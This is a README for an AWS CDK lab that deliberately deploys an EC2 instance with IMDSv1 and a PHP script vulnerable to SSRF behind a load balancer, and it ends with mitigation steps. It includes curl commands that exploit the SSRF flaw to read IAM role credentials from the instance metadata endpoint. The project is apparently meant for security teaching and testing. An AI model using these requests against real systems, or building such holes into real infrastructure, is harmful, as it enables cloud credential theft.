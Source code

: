 # ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access

```mermaid
graph TB
    Internet[Internet] --> ALB[Application Load Balancer<br/>]
    ALB --> EC2[EC2 Instance<br/>IMDSv1 Enabled<br/>Vulnerable PHP Script]
    EC2 --> IMDS[Instance Metadata Service<br/>169.254.169.254]
    EC2 --> S3[S3 Bucket<br/>secret.txt]
    
    subgraph AWS[AWS Account]
      VPC
      S3
      IMDS
      subgraph VPC["VPC (10.0.0.0/16)"]
          subgraph PublicSubnet["Public Subnet"]
              ALB
              NAT[NAT Gateway]
          end
          
          subgraph PrivateSubnet["Private Subnet"]
              EC2
              SSM_EP[SSM VPC Endpoints]
          end
      end
    end
    
    EC2 <-.-> SSM_EP <-.-> admin
    EC2 --> NAT
    NAT --> Internet
```


## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests